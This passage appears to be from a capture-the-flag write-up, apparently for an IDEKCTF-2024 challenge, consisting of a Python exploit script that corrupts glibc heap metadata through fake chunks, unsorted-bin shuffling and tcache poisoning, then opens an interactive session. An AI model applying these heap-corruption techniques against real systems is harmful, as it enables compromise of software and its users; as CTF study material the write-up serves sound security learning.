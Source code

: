 ```python
free("POP3")
fake_chnk = p64(0x0) + p64(0x581) + 0x578*b"a" + p64(0x31)
malloc(0x600,fake_chnk,"POP4",offset=0x70)

free("r8")

malloc(0x2b8,"TEMPCHUNK","tmp2")
malloc(0x2b8,"REQUIREDPTR","CH2")

free("POP4")
fake_chnk = p64(0x291) + 0x288*b"a" + p64(0x41)
malloc(0x600,fake_chnk,"POP5",offset=0x338)

free("CH0")
free("CH1")
free("CH2")

# SHUFFLING UNSORTED BIN
malloc(0x500,b"SHUFFLE","shuf3")
free("shuf3")

free("c1")
fake_chnk = b"\xd0\xa1"
malloc(0x490,fake_chnk,"c1.1",offset=0x88)

# USING TCACHE ALLOCATIONS
for i in range (7):
    malloc(0x288,"FIRSTALLOC",f"W{i}")

malloc(0x288,"FINALE1","F1")
malloc(0x288,"FINALE1","F1")

payload = p64(0x2f0)
malloc(0x288,payload,"W",offset=0xb8)
malloc(0x2f0,"WIN2","L")
free("L")
malloc(0x310,"WIN2","L")
malloc(0x310,"WIN2","L0")
free("L")
free("L0")

free("W")
payload = b"\xa0\xa2"
malloc(0x198,payload,"W.0",offset=0x20)

malloc(0x2f0,"WIN3","L")

free("W.0")
payload = b"\x00\xa2"
malloc(0x198,payload,"W.1",offset=0x30)

payload = p64(0x37c3c7f)
malloc(0x310,"FINAL","W",offset=0x0)
malloc(0x310,payload,"W",offset=0x0)

gimme_dinner()

p.interactive()
```

NEXT WRITEUP [[IDEKCTF-2024]]
